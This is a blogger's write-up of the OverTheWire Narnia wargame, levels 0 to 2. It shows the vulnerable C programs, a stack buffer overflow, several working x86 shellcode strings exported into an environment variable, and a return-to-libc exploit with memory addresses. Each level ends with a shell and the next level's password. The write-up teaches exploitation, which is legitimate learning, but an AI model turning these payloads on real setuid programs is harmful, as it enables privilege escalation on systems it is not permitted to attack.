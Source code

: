 ## OverTheWire: Narnia
After the frusration and lack of success in the Oman Quals CTF, I've decided to redirect my attention to some of the OverTheWire challenges. I've already completed both the Bandit and Leviathon series of challenges, but will not be doing write-ups on those due to the amount of resources already out there.

### Narnia0
After logging in with the username and password `narnia0` and reading the Welcome banner. It is discovered that the passwords for each level are stored in /etc/narnia_pass/narniaX and the programs to be exploited are in /narnia/ (as well as the source code for said programs).

After looking at the code for narnia0.c, we can see that we need the 'val' variable to be equal to 0xdeadbeef which can be done with a buffer overflow since the 'buf' variable that is read-in from user input is just before the val variable on the stack. Also, because the executable narnia0 has the setuid bit set (s in the owner execute spot in a long listing) the shell that is run in the program will have the privileges of the owner, i.e. narnia1, and allow us to view that users password file.

```
int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

By entering `(python -c 'print "A"*20 + "\xef\xbe\xad\xde"*10')` and piping it into the file we don't get the "WAY OFF!!!!" that we normally would but we also don't get the shell that we expect. So we know it works (kind of) but why are we using those commands. Well '-c' is used to tell python that the following information will be command-line input. Then the 20 A's are used to take up the space in the 'buf' variable and finally we have the 0xdeadbeef in reverse byte-order to account for how the bytes are stored in memory (most PCs are little-endian, i.e. the byte with the littlest value is stored first, this can be checked with the command `lscpu | grep "Byte Order"`).

Now we just have to add something to leave the input open after our code is run (after some research, I found the best way to do this was via the `cat` command).

So the full series of commands is as follows:
```
narnia0@narnia:~$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ▒
val: 0xdeadbeef
whoami
narnia1
```
And we can use this to find our flag:
```
cat /etc/narnia_pass/narnia1
efeidiedae
```

### Narnia1
At first, I thought this one would be easier than the previous challenge. As you can see from the code below, the program attempts to execute code located at the EGG environment variable. Environment Variables are globally accessable variablesfor sharing information between different applications and processes (they can be viewed by entering the `env` command). Since this program runs as Narnia2 (it has a higher privilege as in the last challenge), we want to get the program to open a shell so we can view the Narnia2 password.

```
int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

I initially attempted to simply set $EGG to '/bin/sh' (the $ symbol is used when accessing a global variable). I ran the program and got: `Trying to execute EGG! Segmentation fault`, so that didn't work. It's just displaying the string instead of executing the code and opening the shell. What we need is shellcode!

Shellcode is made up of commands used as the payload for exploitation, named so because of its ability to open a command shell. My first attempt was using the shellcode from **Hacking: The Art of Exploitation** but this attempt didn't work either. After some research, I discovered that my problem was due to the fact that shellcode must be tailored to the machine it is running on. To check our target system, we enter `lscpu`. From here we discover the following:
```
Architecture:          x86_64
CPU op-mode(s):        32-bit, 64-bit
Byte Order:            Little Endian
CPU(s):                2
On-line CPU(s) list:   0,1
Thread(s) per core:    1
Core(s) per socket:    2
Socket(s):             1
Vendor ID:             GenuineIntel
CPU family:            15
Model:                 6
Model name:            Common KVM processor
Stepping:              1
CPU MHz:               3074.244
BogoMIPS:              6148.48
Hypervisor vendor:     KVM
Virtualization type:   full
L1d cache:             32K
L1i cache:             32K
L2 cache:              4096K
L3 cache:              16384K
```

We can see that our target computer is being run on a Virtual Machine, is 64-bit, and has an Intel processor (and we already know it's running Linux due to it's file system). So after searching for Linux x86_64 shellcode, I found some and placed it in the EGG variable.
```
narnia1@narnia:~$ export EGG=$(echo -en "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
narnia1@narnia:~$ echo $EGG
1▒H▒ѝ▒▒Ќ▒▒H▒▒ST_▒RWT^▒;
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Segmentation fault
```
That didn't work, so I tried with some different shellcode, and then I tried again, and again, and again...
```
narnia1@narnia:~$ export EGG=$(echo -en "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Illegal instruction
narnia1@narnia:~$ export EGG=$(echo -en "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Segmentation fault
narnia1@narnia:~$ export EGG=$(echo -en "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
narnia1@narnia:~$ export EGG=$(echo -en "\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a\x89\x46\x0e\xb0\x0b\x89\xf3\x8d\x4e\x0a\x8d\x56\x0e\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
```
...until I finally got it. Whew! That took a lot longer than expected.

I hope this helped to explain some basic computer exploitation principles in regards to environment variables. As for shellcode, I'll do some reading up on that and provide some better explanations in the future.

### Narnia2
First off, I would like to thank [Connor Hamlet](http://github.com/cphamlet) for his help in crafting this exploit.

Taking a look at the code, we can see that the program is vulnerable to a stack buffer overflow (i.e. we can fill up the buffer to overwrite information on the stack).
```
int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```
Since I recently did a return-to-libc exploit as part of my Masters, I decided to go with that approach. 

After testing how to overwrite the instruction pointer (EIP), we found 132 was the amount of bytes we needed to fill. After loading up the program in **GDB**, we found the address of the system command by using `print system` (it was 0xf7e4c850). Next we used the find command to locate the string `/bin/sh` in libc by entering `find &system, +999999, "/bin/sh"`. The only pattern found was at 0xf7f6ecc8. We used this information to craft the exploit below. _Note: We use the address 0xf7e11010 as useless information to overflow the return address and get to function input where we put "/bin/sh"_

```
narnia2@narnia:~$ /narnia/narnia2 $(python -c 'print "A"*132+"\x50\xc8\xe4\xf7\x10\x10\xe1\xf7\xc8\xec\xf6\xf7"')
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
vaequeezee
```
For more information on return-to-libc, check out this [this article](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf) from exploit-db.

### Narnia3
TBD
